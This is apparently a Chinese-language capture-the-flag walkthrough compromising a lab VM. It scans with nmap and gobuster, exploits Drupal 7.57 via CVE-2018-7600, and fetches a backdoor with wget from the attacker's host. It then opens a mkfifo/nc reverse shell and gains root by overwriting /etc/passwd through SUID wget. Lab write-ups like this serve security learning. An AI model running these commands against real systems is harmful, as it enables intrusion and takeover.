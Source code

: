 ```
nmap -sP 172.16.250.0/24
nmap -p- -sV 172.16.250.129  
```

```
Nmap scan report for 172.16.250.129 (172.16.250.129)
Host is up (0.0018s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:47:6C:54 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 gobuster对目标80端口进行目录扫描

```
gobuster dir -u http://172.16.250.129 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

/drupal 存在

http://172.16.250.129/drupal/CHANGELOG.txt

查看版本为Drupal 7.57, 2018-02-21

利用脚本

```
python3 drupa7-CVE-2018-7600.py http://172.16.250.129/drupal/ -c "id"
python3 drupa7-CVE-2018-7600.py http://172.16.250.129/drupal/ -c "cat sites/default/settings.php"
```

python开启http服务下载后门

```
python3 -m http.server 8001

python3 drupa7-CVE-2018-7600.py http://172.16.250.129/drupal/ -c "wget http://172.16.250.128:8001/backdoor.php backdoor.php"
```

用哥斯拉连一下，也可以nc反弹shell，此时是www权限

反弹shell命令，这里目标机不是用的bash而是dash，bash反弹无效。在msf里得到shell后使用python交互shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.250.128 8881 >/tmp/f
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

flag1是在    /home/james/user.txt里是   MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

**权限提升：**

suid提权

```
find / ‐perm ‐u=s ‐type f 2>/dev/null
```

wget提权，下载命令具有root权限

远程wget下载并替换/etc/passwd 

```
openssl passwd -1 -salt zf1yolo 123456
$1$zf1yolo$oULk89mtehUjxLPH9cRSn1
zf1yolo:$1$zf1yolo$oULk89mtehUjxLPH9cRSn1:0:0:root:/root:/bin/bash
```

```
wget http://172.16.250.128:8001/passwd -O /etc/passwd
su zf1yolo
123456
```

flag2:   root.txt      MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

<img src=".\图片\Snipaste_2022-11-21_17-48-30.png" alt="Snipaste_2022-11-21_17-48-30" style="zoom:80%;" />



<img src=".\图片\Snipaste_2022-11-21_17-47-19.png" alt="Snipaste_2022-11-21_17-47-19" style="zoom:80%;" />



总结：nmap、已知漏洞并利用、反弹shell、哥斯拉、msf、msf的shell里python交互shell、suid提权之wget